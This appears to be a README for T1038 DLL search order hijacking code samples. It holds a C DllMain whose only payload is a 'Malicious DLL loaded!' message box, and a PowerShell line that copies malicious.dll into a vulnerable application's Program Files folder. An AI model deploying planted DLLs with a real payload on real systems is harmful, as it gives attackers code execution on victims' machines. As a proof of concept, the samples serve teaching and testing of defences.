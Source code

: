 # Code Samples: T1038 DLL Search Order Hijacking

This folder contains code examples for creating and deploying malicious DLLs to exploit search order vulnerabilities.

## Example: Malicious DLL (C)
```c
// Minimal DLL entry point
#include <windows.h>
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    MessageBoxA(NULL, "Malicious DLL loaded!", "DLL Hijack", MB_OK);
    return TRUE;
}
```

## Example: Deploy DLL with PowerShell
```powershell
Copy-Item -Path .\malicious.dll -Destination "C:\Program Files\VulnerableApp\"
```
